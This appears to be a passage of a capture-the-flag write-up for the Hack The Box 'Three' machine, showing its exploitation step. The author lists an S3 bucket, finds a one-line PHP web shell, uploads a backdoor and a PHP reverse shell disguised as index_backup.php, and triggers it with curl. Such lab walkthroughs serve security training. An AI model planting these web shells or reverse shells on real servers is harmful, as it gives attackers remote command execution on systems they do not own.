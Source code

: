 # exploitation

looks like there is already a shell uploaded, but chances are it's not supposed to be there...

```
$ aws s3 cp --profile htb_three --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb/shell.php .
download: s3://thetoppers.htb/shell.php to ./shell.php

$ cat shell.php                      
<?php system($_GET["cmd"]); ?>
```

i copied my own shell up just to make sure that i could do it myself and tested the backdoor with a simple command

```
$ aws s3 cp /usr/share/webshells/php/simple-backdoor.php --profile htb_three --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb/simple-backdoor.php 
upload: ../../../usr/share/webshells/php/simple-backdoor.php to s3://thetoppers.htb/simple-backdoor.php

$ aws s3 ls --profile htb_three --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb            
                           PRE images/
2025-06-30 08:02:06          0 .htaccess
2025-06-30 08:02:06      11952 index.php
2025-06-30 09:06:28         31 shell.php
2025-06-30 09:55:15        328 simple-backdoor.php

```

![three_backdoor](/assets/img/three_backdoor.png)

so now that that works, i can cleanup, toss a reverse shell up there (the default from the php webshells directory on kali), setup the listener, and throw a curl request for `http://thetoppers.htb/index_backup.php`

```
$ aws s3 cp ./php-reverse-shell.php --profile htb_three --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb/index_backup.php    
upload: ./php-reverse-shell.php to s3://thetoppers.htb/index_backup.php

$ aws s3 ls --profile htb_three --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb                                         
                           PRE images/
2025-06-30 08:02:06          0 .htaccess
2025-06-30 08:02:06      11952 index.php
2025-06-30 10:15:43       5495 index_backup.php

$ curl http://thetoppers.htb/index_backup.php 
```
